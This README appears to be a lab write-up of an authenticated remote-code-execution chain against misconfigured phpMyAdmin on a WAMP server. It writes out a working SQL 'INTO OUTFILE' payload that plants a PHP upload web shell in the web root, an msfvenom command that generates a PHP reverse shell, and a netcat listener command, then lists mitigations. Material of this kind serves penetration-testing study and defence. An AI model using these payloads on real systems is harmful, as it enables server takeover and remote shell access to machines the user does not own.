






# Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All actions were performed in a controlled lab environment.  
Unauthorized access or exploitation of systems you do not own is illegal and unethical.  
The author is not responsible for any misuse of the information provided here.

---

## 🧠 Overview

This repository demonstrates how an attacker can achieve **authenticated Remote Code Execution (RCE)** in a misconfigured **PhpMyAdmin** setup using the SQL query interface.

By abusing the `SELECT ... INTO OUTFILE` functionality, it is possible to write a malicious PHP web shell to the server's web root. That uploader is then used to upload a reverse shell, leading to complete remote access.

This is **not a new CVE** but rather a misconfiguration and privilege abuse chain.

---

## 📋 Attack Flow

1. Login to PhpMyAdmin with valid credentials
2. Use `SELECT INTO OUTFILE` to write a PHP uploader shell
3. Upload a reverse shell via that uploader
4. Trigger the uploaded shell to receive a reverse connection

---

## ⚙️ Lab Environment

- **Target URL**: `http://192.168.110.189:8080/phpmyadmin/`  
- **PhpMyAdmin Version**: 5.x  
- **OS**: Windows with WAMP (Web Root: `C:/wamp/www/`)  
- **Credentials**: Valid user login  
- **Listener IP**: `192.168.45.206`  
- **Port**: `4444`

---

## 💣 Exploit Commands

### 1. SQL Payload to Drop PHP Uploader

```sql
SELECT "<?php echo '<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">'; 
echo '<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>'; 
if( $_POST['_upl'] == \"Upload\" ) { 
  if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { 
    echo '<b>Upload Done.</b>'; 
  } else { 
    echo '<b>Upload Failed.</b>'; 
  } 
} ?>" 
INTO OUTFILE 'C:/wamp/www/uploader.php'
```

### 2. Generate Reverse Shell Using msfvenom

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o rev_shell.php
```

### 3. Start Listener

```bash
nc -nlvp 4444
```

---

## 📸 Screenshots

1. **SQL Query to Inject Uploader**  
   

2. **Accessing Uploader via Browser**  
   

3. **Creating a payload**
    

4. **Uploading rev_shell.php**  
   

5. **Shell Triggered and Connection Received**  
   
   

> 💡 If you prefer not to push images, you can embed them using GitHub Issues or external URLs.

---

## 🔐 Mitigation

- Restrict or disable the `FILE` privilege in MySQL for all web users.
- Set the `secure_file_priv` variable in MySQL to restrict file write paths.
- Prevent public access to PhpMyAdmin.
- Apply proper file system permissions to prevent MySQL from writing to web directories.
- Use a Web Application Firewall (WAF) and monitor logs for suspicious queries.

---

## 📚 References

- [PhpMyAdmin Project](https://www.phpmyadmin.net/)  
- [CyberChef](https://gchq.github.io/CyberChef/)  
- [msfvenom Payloads](https://docs.rapid7.com/metasploit/php-payloads/)

---


## 📝 Related Blog Post

Read the full write-up:  
👉 [Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload](https://medium.com/@sakshi.infosec)

